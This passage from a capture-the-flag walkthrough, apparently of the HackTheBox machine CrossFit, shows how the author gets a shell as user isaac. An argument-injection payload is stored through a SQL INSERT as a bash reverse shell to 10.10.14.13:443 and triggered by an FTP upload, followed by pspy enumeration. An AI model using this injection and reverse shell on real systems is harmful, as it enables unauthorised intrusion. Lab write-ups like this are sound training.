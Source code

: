 So to trigger the script and the exploit, I have to upload a file via FTP, and have a malicious email payload to get a shell as `isaac`.

### Isaac RCE

From the Github issues, the RCE payload is `--wrong-argument || COMMAND`.

{% embed url="https://github.com/mikehaertl/php-shellcommand/issues/44" %}

From this, I inserted a `email` column into the `users` table with a payload, since its contents is part of the command passed to `addArg`:

```sql
INSERT INTO users(email) VALUES ('--wrong-arg || bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"');
```

Afterwards, I need to upload any file via FTP This is because the `send_update.php` file runs on detecting new files. Putting a new file within the `messages` directory triggers the payload:

![](../../../.gitbook/assets/htb-crossfit-image-16.png)

### Basic Enum -> Ghidra RE

I ran `pspy64` and `linpeas.sh` to enumerate stuff as this user, and was initially particularly interested in the `staff` group.

I checked both `./pspy64` and `./pspy64 -f` to monitor for file events.

There was something running `dash`:

```
2024/03/10 14:20:21 FS:        CLOSE_NOWRITE | /usr/bin/bash
```

I monitored stuff running within `/bin` and `/usr/bin`. 

```
$ ./pspy64 -f -r /bin -r /usr/bin
2024/03/10 14:24:01 FS:                 OPEN | /usr/bin/dash
2024/03/10 14:24:01 FS:               ACCESS | /usr/bin/dash
2024/03/10 14:24:01 FS:                 OPEN | /usr/bin/dbmsg
```

There was `dbmsg` binary, which I could not find on my own machine, meaning it is not a default one.
